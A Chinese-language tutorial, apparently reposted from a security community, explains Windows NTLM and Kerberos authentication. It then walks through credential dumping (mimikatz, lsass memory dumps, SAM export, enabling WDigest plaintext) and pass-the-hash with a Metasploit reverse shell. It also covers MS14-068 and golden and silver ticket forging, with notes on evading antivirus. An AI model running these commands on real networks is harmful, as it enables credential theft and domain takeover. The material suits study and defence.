#### **一、前言**

在学习Windows时，我们需要去了解一些基本的Windows知识，这里借用网络上的一些优秀文章进行学习。

<!-- more -->

**二、Windows身份 认证机制**

在Windows中，身份认证机制主要有三种**：LM Hash（Windows2000之前）、NTLM Hash、Kerberos**，下面简单介绍下三种不同的认证方式。

**LM Hash：**NTLM Hahs的前身，相对是比较错弱的，生成规则如下：

- 用户的密码被限制为最多14个字符。
- 用户的密码转换为大写。
- 密码转换为16进制字符串，不足14字节将会用0来再后面补全。
- 密码的16进制字符串被分成两个7byte部分。每部分转换成比特流，并且长度位56bit，长度不足使用0在左边补齐长度，再分7bit为一组末尾加0，组成新的编码（str_to_key()函数处理）
- 上步骤得到的8byte二组，分别作为DES key为"KGS!@#$%"进行加密。
- 将二组DES加密后的编码拼接，得到最终LM HASH值。

通过这个很明确的看出，进行LM Hash加密时，其中的key值是一个固定值KGS!@#$%，这就意味着它被暴力破解出来的可能性非常大，通过LM Hash的生成机制，还能清楚的看出：**密码是否大于等于7位，因为当位数不足时，后面会用0来补全，所以当密码位数小于7时，最终生成的LM Hash的末尾字符是一个恒定不变的值：AA-D3-B4-35-B5-14-04-EE。**

再有就是，它的密码是不区分大小写的，这更增加了被爆破的概率。

在Windows Vista和WindowsServer 2008以前的系统还会使用LM hash，自WindowsVista和Windows Server 2008开始,Windows取消LM hash。

**NTLM**
NTLM(NT LAN Manager)是Windows中最常见的身份认证方式，主要有本地认证和网络认证两种情况。

**NTLM Hash**
在介绍NTLM之前，需要介绍NTLM中最关键的凭证：NTLM Hash。正常的明文密码加密为NTLM Hash的方法如下：

password ----> 十六进制编码 ----> Unicode转换 ----> MD4加密 ----> 得到NTLM Hash

例如：

admin -> hex(16进制编码) = 61646d696e

61646d696e -> Unicode = 610064006d0069006e00

610064006d0069006e00 -> MD4 = 209c6174da490caeb422f3fa5a7ae634

**本地认证**
在本地认证过程中，当用户进行注销、重启、开机等需要认证的操作时，首先Windows会调用winlogon.exe进程（也就是我们平常见到的登录框）接收用户的密码。

之后密码会被传送给进程lsass.exe，该进程会先在内存中存储一份明文密码，然后将明文密码加密为NTLM Hash后，与Windows本地的SAM数据库（%SystemRoot%\system32\config\SAM）中该用户的NTLM Hash对比，如果一致则通过认证。




**网络认证**

工作组环境
网络认证需要使用NTLM协议，该协议基于挑战（Challenge）/响应（Response）机制。

它主要分为协商、质询和验证三个步骤

- 协商，这个是为了解决历史遗留问题，也就是为了向下兼容，双方先确定一下传输协议的版本等各种信息。

- 质询，这一步便是Chalenge/Response认证机制的关键之处，下面会介绍这里的步骤。

- 验证，对质询的最后结果进行一个验证，验证通过后，即允许访问资源
- 

**质询的完整过程** 

首先，client会向server发送一个username，这个username是存在于server上的一个用户。

当server接收到这个信息时，首先会在本地查询是否存在这样的一个用户，如果不存在，则直接返回认证失败，如果存在，将会生成一个16位的随机字符，即Chalenge，然后用查询到的这个user的NTLM hash对Chalenge进行加密，生成Chalenge1，将Chalenge1存储在本地，并将Chalenge传给client。

当client接收到Chalenge时，将发送的username所对应的NTLM hash对Chalenge进行加密即Response，并Response发送给server。

质询到这里就结束了，最后一步就是属于验证的机制了


server在收到Response后，将其与Chalenge1进行比较，如果相同，则验证成功

NTLM V2协议，NTLMv1与NTLM v2最显著的区别就是Challenge与加密算法不同，共同点就是加密的原料都是NTLM Hash，NTLM v1的Challenge有8位，NTLM v2的Challenge为16位；NTLM v1的主要加密算法是DES，NTLM v2的主要加密算法是HMAC-MD5。


**详细过程**

首先客户端向服务端发送用户名以及本机的一些信息(此处更正)
服务端接收到客户端的用户名后，先生成一个随机的16位的Challenge（挑战随机数），本地储存后将Challenge返回给客户端
客户端接收到服务端发来的Challenge后，使用用户输入密码的NTLM Hash对Challenge进行加密生成Response（也叫Net NTLM Hash），将Response发送给服务端
服务端接收到客户端发来的Response，使用数据库中对应用户的NTLM Hash对之前存储的Challenge进行加密，得到的结果与接收的Response进行对比，如果一致则通过认证。




**域环境**
域环境中虽然默认首选是kerberos认证，但是也可以使用NTLM来进行认证。其实NTLM在域环境与工作组环境中的差异不大，区别主要是最终在域控(DC)中完成验证。直接看图比较清晰一点：




**NTLM的缺陷**
了解整个过程之后我们可以发现，在整个过程中用户的明文密码并没有在客户端和服务端之间传输，取而代之的是NTLM Hash。因此如果攻击者得到了用户的NTLM Hash，那么便可以冒充该用户通过身份验证（也就是说不需要破解出明文密码就可以通过验证），这就是hash传递攻击(Pass The Hash)。


**Kerberos**
Kerberos实际上是一种基于票据（Ticket）的认证方式。客户端要访问服务器的资源，需要首先购买服务端认可的票据。也就是说，客户端在访问服务器之前需要预先买好票，等待服务验票之后才能入场。在这之前，客户端需要先买票，但是这张票不能直接购买，需要一张认购权证。客户端在买票之前需要预先获得一张认购权证。这张认购权证和进入服务器的入场券均有KDC发售。

过程中涉及到的专有名词有：

KDC(Key Distribution Center) : 密钥分发中心
KAS(Kerberos Authentication Service) : kerberos认证服务
TGT(Ticket Granting Ticket) : 认购权证
TGS(Ticket Granting Service) : 票据授予服务
ST(Service Ticket) : 服务票据

**获取TGT**
1、客户端要先拿到TGT，然后才能购买ST进行对应服务的访问

2、首先在用户登陆时，Kerberos服务向KDC(域控)发送申请认购权证的请求，内容为登录输入的用户名和经过输入密码加密的Authenticator(用于确认身份的，往下看就会明白)
KDC(域控)拿到传来的数据后，会根据用户名到活动目录(Active Directory)的数据库中寻找该用户的密码，然后使用该密码解密加密的Authenticator，然后与原始的Authenticator对比，如果一致，则确认用户身份。




1、KDC(域控)确认登录用户身份正确后，先生成一个由用户密码加密的加密Logon Session Key（为了确保通信安全）。然后生成TGT(包含用户信息和原始Logon Session Key)，再使用KDC的密钥（即krbrgt用户的密钥）加密TGT生成加密后的TGT。然后将由用户密码加密的加密Logon Session Key和加密后的TGT返回给客户端
2、客户端拿到加密Logon Session Key和TGT后，先用自己的密码解密加密Logon Session Key得到原始Logon Session Key，然后将原始Logon Session Key和TGT缓存到本地




**获取ST**
当用户想要访问某个服务时，会经过以下过程：

1、客户端向TGS请求购买ST，请求内容包括用户名、经Logon Session Key加密的Authenticator、请求访问的服务名、TGT

2、接收到请求后，TGS使用自己的密钥(krbtgt用户的密钥)解密TGT得到用户信息和原始Logon Session Key，然后使用原始Logon Session Key解密出Authenticator，与TGS本地的Authenticator对比一致后确认用户身份。




1、TGS生成一个经Logon Session Key加密的Service Session Key，然后生成ST（包含请求用户的信息以及原始Logon Session Key），然后将Service Session Key和ST返回给客户端




之后的过程就是用户用ST和去访问服务了，个人认为理解到这里就ok了，后面的过程不再过多赘述

Kerberos的缺陷
从以上认证过程我们可以发现，Kerberos认证完全依赖于KDC的密钥（即krbtgt用户的密钥）。因此，如果攻击者拿到了krbtgt账号的hash的话，那么他就可以访问域中任何以kerberos协议做身份认证的服务。这就产生了票据传递攻击(Pass The Ticket)。

# Hash抓取

## WCE

该工具可以抓取用户的LM Hash和NTML Hash，需要administrator权限。测试绝大数杀软都会报毒，需要免杀。

```
wce.exe -lv
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20191019215841-8e69d392-f278-1.png)

**工具地址：**https://github.com/xfmn/wce

## QuarkPwDump

也是导出用户LM Hash和NTLM Hash的，测试发现只有360和nod32等少数杀软报了毒，是否需要免杀视具体情况而定。

```
QuarkPwDump.exe -dhl
```



**工具地址：**https://github.com/quarkslab/quarkspwdump

## Reg导出注册表本地分析

这个需要system权限（在我的xp上测试竟然无限蓝屏重启，懵逼了。。），在win2003上可以测试成功：

```
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security security.hive
```



然后导入到本地的mimikatz中：

```
lsadump::sam /system:system.hive /sam:sam.hive
```



## mimikatz

神器不必多说，mimikatz可以抓取上面提到的`lsass.exe`进程存储在内存中的明文密码，前提是该用户在该服务器上登录过

需要administrator及以上权限，需要免杀

```
privilege::debug
sekurlsa::logonpasswords
```



可以看到不仅抓取到了本机的administrator的密码，还抓取到了域管理员的密码，在域渗透的过程中会用到

**工具地址：**https://github.com/gentilkiwi/mimikatz/releases

## ProcDump导出数据本地分析

这种方式最大的优势就是免杀，因为ProcDump是微软官方提供的。但缺点也很明显，导出的数据文件可能会很大（但我本地测试的时候速度还是很快的）。需要administrator及以上权限。

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```



之后可以下载到本地导入到mimikatz中进行读取

我在xp上导出，在win10上导入会报错



查了一下发现需要注意的一点是导出的平台和导入的平台不同时会报错，可以看一下mimikatz官方的解释：



在另一台xp中就可以成功导出和读取：

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```



工具地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

## SharpDump

一款C#的工具，GitHub上提供了project源码，在VS中以release编译完成即可使用。

测试只有极少的杀软会报毒，但本地测试时win10的defender会报毒，是否免杀视情况而定吧。需要administrator及以上的权限。



然后将打包的`debug824.bin`下载到本地，修改扩展名为`gz`，将解压后得到的文件导入mimikatz

(**注意**：我第一次测试时导入失败了，之后换了最新版本的mimikatz后成功导入)

```
sekurlsa::minidump <要导入的文件名>
sekurlsa::logonPasswords full
```



但是用户明文密码处是`(null)`，查了一下发现原来Windows Server 2012 R2以上的系统默认不向内存中保存明文密码了。这个我们可以通过修改注册表来解决（需要权限）：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

然后重启win10，用户重新登录再导出一次，然后在mimikatz中导入就可以看到明文的密码：



**工具地址：**https://github.com/GhostPack/SharpDump

# Hash传递攻击(Pass-The-Hash)

在渗透过程中，如果从lsass.exe进程得不到明文密码，并且拿到的用户hash也破解不出结果，我们就可以使用hash传递攻击

从上面写的NTLM认证方式中我们可以了解到在NTLM认证过程中用户的明文密码是不在客户端和服务端之间传输的，认证最主要的凭据就是用户的NTLM Hash。

那么当攻击者拿到用户的NTLM Hash时，攻击者完全可以只利用NTLM Hash与服务端完成身份认证的流程，达到冒充该用户的目的。

## MSF

使用msf的`exploit/windows/smb/psexec`模块可以进行hash传递攻击，条件是目标开启445端口，而且没有打KB2871997和KB2928120这两个补丁

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.206.128
set RHOST 192.168.206.101
set SMBUser administrator
set SMBPass AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
exploit
```

注意`SMBPass`参数要写成`<LM Hash>:<NTLM Hash>`的形式，exploit后可以成功拿到目标计算机的meterpreter会话



## mimikatz

其实这个是在微软发布了KB2871997补丁之后mimikatz提供的解决办法，也被称为**Over Pass-the-hash**

### 工作组环境

首先我们假设在WIN2003上我们使用wce抓取到了administrator的NTLM Hash



然后我们到WINXP中使用mimikatz进行hash传递攻击：

```
privilege::debug
sekurlsa::pth /user:<用户名> /domain:<远程服务器地址> /ntlm:<用户的NTLM Hash>
```



之后会弹出一个cmd的窗口，我们在这个cmd中可以进行对目标计算机的一些操作，如列出WIN2003的c盘文件：

```
dir \\192.168.206.101\c$
```



### 域环境

如果我们拿到了域内一台服务器的域用户账号，那么我们可能想域管或者其他域用户会不会使用的是同样的密码呢？

假设我们此时拿到了一个普通域用户的NTLM Hash，而域管理员使用的是同样的密码（测试时我是直接在域控WIN08上抓下来的2333），然后便可以尝试利用改NTLM Hash去访问域控

```
privilege::debug
sekurlsa::pth /user:<域管理员名> /domain:<所属域名称> /ntlm:<域管的NTLM Hash>
```

在弹出的cmd中成功访问到域控的c盘

```
dir \\WIN08\$c
```



# 票据传递攻击(Pass-The-Ticket)

**票据传递攻击(Pass-The-Ticket)**就是利用伪造的kerberos票据进行身份认证，该过程不需要密码。

域中的票据又分为**黄金票据(Golden Ticket)**和**白银票据(Silver Ticket)**，其中黄金票据可以使攻击者直接提升为域管理权限，而白银票据则可以使攻击者访问特定的服务。

## 黄金票据(Golden Ticket)

黄金票据的本质就是一张**TGT(Ticket Granting Ticket)**，攻击者使用krbtgt账户的hash伪造黄金票据，进而访问域中包括域控的所有服务器。该攻击过程发生在前面所说的**获取ST**的第**1**步

### MS14-068

利用该漏洞可以将域内任何普通用户提升为域管权限，微软发布的补丁为：`kb3011780`。如果域控没有打上该补丁的话，攻击者就有可能利用该漏洞提升自己的权限

首先我们使用一个普通域用户test登录到WIN7上，并记录该用户的sid：



此时访问域控的C盘根目录是没有权限的：



我们使用MS-14068.exe，生成票据：

```
MS14-068.exe -u <用户名>@<所属域名称> -s <此用户的sid> -d <域控地址> -p <此用户的密码>
```



然后再使用mimikatz将票据导入：

```
kerberos::ptc TGT_test@centoso.com.ccache
```



导入之后便可以成功访问域控WIN08的C盘根目录（还可以访问该域中的其他服务器）：

```
dir \\WIN08\c$
```



还可以使用微软的SysinternalsSuite工具包中的psexec.exe来获取WIN08的shell：

```
Psexec64.exe \\WIN08 cmd.exe
```



**PS：**WINXP与WIN2003均测试失败，mimikatz无法导入生成的TGT

### mimikatz生成

使用mimikatz生成黄金票据需要以下几点条件：

- 知道krbtgt的NTLM Hash或aes256
- 知道krbtgt的sid

该方法经常会用来做拿下域控后的权限维持，因为krbtgt账户的密码基本不会更改，即使域管的密码被修改krbtgt的密码也不会改变

首先假设我们此时已拿到域控权限，使用mimikatz查看krbtgt用户的信息：

```
privilege::debug
lsadump::dcsync /domain:centoso.com /user:krbtgt
```



拿到krbtgt的NTLM Hash和sid后，我们就可以在一台普通域服务器上生成黄金票据并导入：

```
kerberos::golden /user:<域管> /domain:<所属域名称> /sid:<krbtgt的sid> /krbtgt:<krbtgt的NTLM Hash> /ptt
```


也可以先将黄金票据生成为ticket.kirbi文件后再导入：

```
kerberos::golden /user:<域管> /domain:<所属域名称> /sid:<krbtgt的sid> /krbtgt:<krbtgt的NTLM Hash>
kerberos:ptt ticket.kirbi
```



查看本机已有的票据：

```
kerberos::list
```



尝试将域控的C盘映射到本地的K盘：

```
net use K: \\WIN08\c$
```



## 白银票据(Silver Ticket)

白银票据的本质是一张ST(Service Ticket)，也就是使用要访问的服务器的hash来伪造白银票据。区别于黄金票据的是白银票据只能访问指定的服务，但白银票据的优点是于目标服务器不经过DC直接交互。

对于白银票据的生成也有以下几点要求：

- 目标服务账户的NTLM Hash
- 目标服务器账户的sid

### mimikatz生成

假设我们拿到目标服务账户的NTLM Hash和sid

然后使用mimikatz生成一张可以访问WIN2003的白银票据：

```
kerberos::golden /domain:<所属域名称> /sid:<服务账户sid> /target:<目标服务器的FQDN> /service:<要访问的服务> /rc4:<服务账户NTLM Hash> /user:<要伪造的用户> /ptt
```

之后就可以访问目标服务器上对应的服务

# 参考文章

- https://github.com/l3m0n/pentest_study
- https://blog.csdn.net/qq_36119192/article/details/85941222
- https://green-m.me/2019/01/24/play-with-kerberos/
- https://www.anquanke.com/post/id/175364
- https://www.freebuf.com/sectool/112594.html
- [https://patrilic.top/2019/05/05/Windows%20%E6%8A%93%E5%8F%96Hash/](https://patrilic.top/2019/05/05/Windows 抓取Hash/)
- [https://wh0ale.github.io/2018/12/25/2018-12-25-%E5%9F%9F%E6%B8%97%E9%80%8F%E4%B9%8B%E7%A5%A8%E6%8D%AE/](https://wh0ale.github.io/2018/12/25/2018-12-25-域渗透之票据/)
- [http://paper.vulsee.com/Micro8/%E7%AC%AC%E4%B8%80%E7%99%BE%E9%9B%B6%E4%BA%94%E8%AF%BE%EF%BC%9Awindows%20%E5%8D%95%E6%9C%BA%E5%85%8D%E6%9D%80%E6%8A%93%E6%98%8E%E6%96%87%E6%88%96hash%20%5B%E9%80%9A%E8%BF%87dump%20lsass%E8%BF%9B%E7%A8%8B%E6%95%B0%E6%8D%AE%5D.pdf](http://paper.vulsee.com/Micro8/第一百零五课：windows 单机免杀抓明文或hash [通过dump lsass进程数据].pdf)


*** 本文转载自先知社区，原文地址：https://xz.aliyun.com/t/6600  侵删！***

